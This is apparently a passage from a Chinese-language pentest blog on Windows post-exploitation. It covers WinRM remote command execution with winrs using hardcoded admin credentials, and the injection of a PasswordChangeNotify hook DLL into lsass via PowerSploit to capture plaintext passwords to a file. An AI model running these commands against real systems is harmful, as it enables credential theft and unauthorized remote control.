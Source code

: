 效果图

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/image-20210226204713405.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/image-20210226204713405.png)

winrm
-----

​ winRm（微软远程管理）是 WS-Management 协议的实现组件。WinRM 是 windows 操作系统的一部分。是一项允许管理员在系统上远程执行管理任务的服务。通信通过 HTTP（5985）或 HTTPS SOAP（5986）执行，默认情况下支持 Kerberos 和 NTLM 身份验证以及基本身份验证。 你需要管理员身份才能使用它。  
​ 适用版本: 适用于 Win server 2008 / Win7 及以后的系统，但是 Win server 2008 / PC 全版本系统默认关闭。只有在 Win server 2012 之后的版本的 WinRM 服务才默认启动并监听了 5985 端口，允许远程任意主机来管理。

我们可以通过如下 powershell 命令查看机器上的 winrm 是否正常运行

```
Get-WmiObject -Class win32_service | Where-Object {$_.name -like "WinRM"}
```

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/image-20210226223701342.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/image-20210226223701342.png)

若没开启，你可以在管理员权限下执行以下指令开启

```
winrm quickconfig -q
or
Enable-PSRemoting -Force
```

远程命令执行

```
winrs -r:192.168.86.114 -u:192.168.86.114\administrator -p:123456!@#$% whoami
```

Hook PasswordChangeNotify
-------------------------

原理：当用户修改密码时会输入明文密码，LSA 会调用 PasswordChangeNotify 在系统中同步密码。我们 HOOK 这个函数，改变其行为，就能达到获取用户修改后的密码的明文.

Tool: Powersploit 下的 Invoke-ReflectivePEInjection.ps1 （用于注入）  
[https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)  
以及 [https://github.com/clymb3r/Misc-Windows-Hacking](https://github.com/clymb3r/Misc-Windows-Hacking) 的 HookPasswordChange.dll(需自行编译)

```
Import-Module .\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass
```

执行如上命令，只要修改了用户的密码，修改后的明文密码就会记录在 C:\Windows\Temp\passwords.txt 文件中。

下面我们分析一下原理

当密码改变请求发生时，LSA 会调用 Password Filters。每一个 password filter 会先验证新密码的合法性和复杂度，然后 LSA 会发出请求已更改的信号。

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217133057.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217133057.png)

该过程由 password notification DLL 完成。所以我们只需要劫持这个 DLL，把它换成我们自定义的 DLL 即可达到目的。  
这种方式一般在 Server 服务器上利用率较高  
通常来说，这个 dll 文件的在注册表中的路径是 hklm\system\currentcontrolset\control\lsa 的 notification packages 表项。
